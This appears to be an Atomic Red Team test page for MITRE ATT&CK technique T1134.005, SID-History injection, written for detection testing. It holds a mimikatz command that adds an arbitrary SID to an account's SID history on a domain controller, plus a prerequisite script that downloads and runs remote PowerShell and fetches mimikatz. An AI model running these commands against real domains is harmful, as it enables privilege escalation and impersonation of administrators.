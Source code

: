 # T1134.005 - Access Token Manipulation: SID-History Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/005)
<blockquote>

Adversaries may use SID-History Injection to escalate privileges and bypass access controls. The Windows security identifier (SID) is a unique value that identifies a user or group account. SIDs are used by Windows security in both security descriptors and access tokens. (Citation: Microsoft SID) An account can hold additional SIDs in the SID-History Active Directory attribute (Citation: Microsoft SID-History Attribute), allowing inter-operable account migration between domains (e.g., all values in SID-History are included in access tokens).

With Domain Administrator (or equivalent) rights, harvested or well-known SID values (Citation: Microsoft Well Known SIDs Jun 2017) may be inserted into SID-History to enable impersonation of arbitrary users/groups such as Enterprise Administrators. This manipulation may result in elevated access to local resources and/or access to otherwise inaccessible domains via lateral movement techniques such as [Remote Services](https://attack.mitre.org/techniques/T1021), [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002), or [Windows Remote Management](https://attack.mitre.org/techniques/T1021/006).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injection SID-History with mimikatz](#atomic-test-1---injection-sid-history-with-mimikatz)


<br/>

## Atomic Test #1 - Injection SID-History with mimikatz
Adversaries may use SID-History Injection to escalate privileges and bypass access controls. Must be run on domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 6bef32e5-9456-4072-8f14-35566fb85401





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sid_to_inject | SID to inject into sidhistory | string | S-1-5-21-1004336348-1177238915-682003330-1134|
| sam_account_name | Target account to modify | string | $env:username|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{mimikatz_path} "privilege::debug" "sid::patch" "sid::add /sid:#{sid_to_inject} /sam:#{sam_account_name}" "exit"
```

#### Cleanup Commands:
```cmd
#{mimikatz_path} "sid::clear /sam:#{sam_account_name}" "exit"
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
